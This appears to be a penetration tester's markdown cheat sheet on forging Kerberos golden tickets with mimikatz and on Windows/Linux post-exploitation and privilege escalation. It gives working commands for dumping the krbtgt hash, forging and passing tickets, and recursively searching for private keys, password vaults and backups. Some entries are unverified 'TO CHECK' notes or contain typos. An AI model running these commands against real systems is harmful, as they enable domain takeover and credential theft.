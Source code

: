 #### Golden Ticket (forging TGT tickets)
- over pass the hash attack
- requirements: Domain SID (whoami /user), KRBTGT hash (from DC ntds)
    - ?`.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::lsa /inject /name:krbtgt`
- create and pass the ticket
    - `.\mimikatz.exe "kerberos::golden /user:$USER /domain:corp.com /sid:$DOMAINSID /krbtgt:$HASH /ptt" "exit"`
    - `klist`
- or just create ticket
    - `.\mimikatz.exe "kerberos::golden /user:$USER /domain:corp.com /sid:$DOMAINSID /krbtgt:$HASH /ticket:golden_ticket.kirbi" "exit"`
- and then pass the ticket (**use hostname** instead of ip address to keep the authentication through kerberos)
- it is possible to impersonate any user having domain admin access, even if the target doesn't have it
- TO CHECK: ?if the account is disabled, the KDC will start to verify it only 20 minutes after the TGT ticket was generated
- one way to invalidate golden tickets is change the krbtgt password as twice (because kerberos keeps accepting the previous nt hash to avoid denial of service)

# Post Exploitation

- [upgrade shell](external.md#shell)
- privilege escalation
- pivoting
- check password in other machines / users
- lateral movement

### what if...
- the user do not have gui remote access:
    - but another one has gui access:
        - log in with the latter and use `runas`
        - use `schtasks` and schedule a task to run as this user (if user has batch logon privilege)
- the machine has rdp or winrm services but the port is not acessible:
    - remote port forwarding

### privilege escalation
- First of all, privilege escalation tools:
    - **PEASS-ng**, Seatbelt, 411Hall/JAWS
    - can be interesting **run PEASS again after obtained privileged access** to try discover more sensitive information
- If manual work is needed, also check:
    * If a web server is running as root / admin, try to create a web shell
    * all users
        - `cat /etc/password`
        - `net user`
        - `net user /domain`
    * current user's groups
        - look groups description, in Windows: groups can be member of other groups, the permission is inherited
        - `groups`
        - `whoami /groups`
    * look into some directories
        - linux: `/home`, `/etc`, `/tmp`, `/run/media`, `/opt`, `/mnt`, `/`
        - windows: `C:\`, `C:\Users`, `$env:TEMP`, `C:\Windows\Temp`
    * search files by extension
        - `find . | grep -Ei 'key|_rsa|\.(bat|ps1|sh|txt|zip|7z|rar|tar|tar\...|csv|bak|backup|kdbx|pub|pdf|doc|docx|xls|xlsx)$'`
        - `dir /S *.bat,*.ps1,*.sh,*.ini,*.txt,*.zip,*.7z,*.rar,*.csv,*.bak,*.backup,*.kdbx,*.pub,*.pdf,*.doc,*.docx,*.xls,*.xlsx`
        - `Get-ChildItem -Path . -Include *.bat,*.ps1,*.sh,*.ini,*.txt,*.zip,*.7z,*.rar,*.csv,*.bak,*.backup,*.kdbx,*.pub,*.pdf,*.doc,*.docx,*.xls,*.xlsx -File -Recurse -ErrorAction SilentlyContinue`